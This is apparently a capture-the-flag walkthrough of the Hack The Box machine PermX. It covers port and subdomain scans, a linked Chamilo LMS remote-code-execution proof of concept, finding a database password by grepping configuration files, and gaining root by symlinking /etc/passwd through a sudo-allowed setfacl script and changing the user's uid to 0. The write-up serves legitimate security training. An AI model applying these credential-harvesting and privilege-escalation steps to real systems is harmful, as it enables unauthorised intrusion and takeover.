 ```yaml
---
description: https://app.hackthebox.com/machines/PermX
---
```


# PermX

<figure><img src="../../../.gitbook/assets/image (109).png" alt=""><figcaption></figcaption></figure>

## Port scanning

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 e2:5c:5d:8c:47:3e:d8:72:f7:b4:80:03:49:86:6d:ef (ECDSA)
|_  256 1f:41:02:8e:6b:17:18:9c:a0:ac:54:23:e9:71:30:17 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: eLEARNING
Service Info: Host: 127.0.0.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.72 seconds
```



## Subdomain scanning

```
        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://permx.htb
 :: Wordlist         : FUZZ: /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt
 :: Header           : Host: FUZZ.permx.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response words: 18
________________________________________________

www                     [Status: 200, Size: 36182, Words: 12829, Lines: 587, Duration: 145ms]
lms                     [Status: 200, Size: 19347, Words: 4910, Lines: 353, Duration: 227ms]
:: Progress: [4989/4989] :: Job [1/1] :: 280 req/sec :: Duration: [0:00:21] :: Errors: 0 ::
```



## Web vuln

<figure><img src="../../../.gitbook/assets/image (110).png" alt=""><figcaption></figcaption></figure>

We see it's using `Chamilo` LMS, basic googling about it's recent vuln gives POC

[https://github.com/m3m0o/chamilo-lms-unauthenticated-big-upload-rce-poc](https://github.com/m3m0o/chamilo-lms-unauthenticated-big-upload-rce-poc) \
POC LINK



## Shell&#x20;

### www-data

Follow the POC steps and get a reverse shell.

### www-data -> mtz

```bash
cd /var/www/chamilo && grep -irl "password"
```

This will list all files that contains `password` variable/text.

We will find `cli-config.php` where we see all imp variables,&#x20;

```php
<?php
/* For licensing terms, see /license.txt */

/**
 * Script needed to execute bin/doctrine.php in the command line
 * in order to:.
 *
 * - Generate migrations
 * - Create schema
 * - Update schema
 * - Validate schema
 * - Etc
 */
use Doctrine\ORM\Tools\Console\ConsoleRunner;

require_once __DIR__.'/vendor/autoload.php';
//require_once __DIR__.'/main/inc/lib/api.lib.php';
$configurationFile = __DIR__.'/app/config/configuration.php';

if (!is_file($configurationFile)) {
    echo "File does not exists: $configurationFile";
    exit();
}

require_once __DIR__.'/main/inc/global.inc.php';
require_once $configurationFile;

$database = new \Database();
$dbParams = [
    'driver' => 'pdo_mysql',
    'host' => $_configuration['db_host'],
    'user' => $_configuration['db_user'],
    'password' => $_configuration['db_password'],
    'dbname' => $_configuration['main_database'],
];

$database->connect($dbParams, realpath(__DIR__).'/', realpath(__DIR__).'/');
$entityManager = $database::getManager();

$helperSet = ConsoleRunner::createHelperSet($entityManager);
$dialogHelper = new Symfony\Component\Console\Helper\QuestionHelper();
$helperSet->set($dialogHelper);

return $helperSet;
```

out of which I found this useful

```php
$configurationFile = __DIR__.'/app/config/configuration.php';
```

#### configuration.php

```bash
www-data@permx:/var/www/chamilo$ cat ./app/config/configuration.php | grep password

$_configuration['db_password'] = '03F6lY3uXAP2bkW8';
// Security word for password recovery

<--SNIPPED-->
```

Now we can ssh and be user `mtz`

Ohh btw, how I find user mtz??? Here's how :arrow\_down:

```bash
cat /etc/passwd | grep sh$
root:x:0:0:root:/root:/bin/bash
mtz:x:1000:1000:mtz:/home/mtz:/bin/bash
```

### mtz -> root

```bash
mtz@permx:~$ sudo -l
Matching Defaults entries for mtz on permx:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User mtz may run the following commands on permx:
    (ALL : ALL) NOPASSWD: /opt/acl.sh
```

File content:

```bash
mtz@permx:~$ cat /opt/acl.sh
#!/bin/bash

if [ "$#" -ne 3 ]; then
    /usr/bin/echo "Usage: $0 user perm file"
    exit 1
fi

user="$1"
perm="$2"
target="$3"

if [[ "$target" != /home/mtz/* || "$target" == *..* ]]; then
    /usr/bin/echo "Access denied."
    exit 1
fi

# Check if the path is a file
if [ ! -f "$target" ]; then
    /usr/bin/echo "Target must be a file."
    exit 1
fi

/usr/bin/sudo /usr/bin/setfacl -m u:"$user":"$perm" "$target"
```

What is setfacl?

{% embed url="https://www.geeksforgeeks.org/linux-setfacl-command-with-example/" %}

To sum it up, it's alternative of `chmod` with more extra features.

#### Exploit

How's the script working:

1. It checks if given file is under /home/mtz (so a normal user should not change other imp files)
2. The argument should not have `..` (it should stay under /home/mtz)
3. The given argument should be file

With given 3 rules, it's very easy to bypass this. **We wil create a symbolic link, under /home/mtz, so that we can edit different sources files too**

```bash
#created link
mtz@permx:~$ ln -s /etc/passwd /home/mtz/passwd

#modified permission
mtz@permx:~$ sudo /opt/acl.sh mtz rwx /home/mtz/passwd
mtz@permx:~$ ls -la /etc/passwd
-rw-rwxr--+ 1 root root 1874 Jul 13 10:48 /etc/passwd

mtz@permx:~$ ls -la passwd
lrwxrwxrwx 1 mtz mtz 11 Jul 13 10:45 passwd -> /etc/passwd

```

Now let's become root, i'll simply update my uid from `1000` to `0`

```bash
mtz@permx:~$ cat passwd
root:x:0:0:root:/root:/bin/bash

<--SNIPPED-->
mtz:x:0:0:mtz:/home/mtz:/bin/bash #<- here we changed our permission
<--SNIPPED->


#Now just login as mtz, and boom we are root
#You can also create new user and make that user root(uid 0).
mtz@permx:~$ su mtz
Password:
root@permx:~# id
uid=0(root) gid=0(root) groups=0(root),1000(mtz)
```

<figure><img src="../../../.gitbook/assets/image (112).png" alt=""><figcaption><p>Yay <span data-gb-custom-inline data-tag="emoji" data-code="1f389">🎉</span></p></figcaption></figure>

\_\_\_\_\_\_\_\_\_\_\_\_\_heapbytes's still pwning....



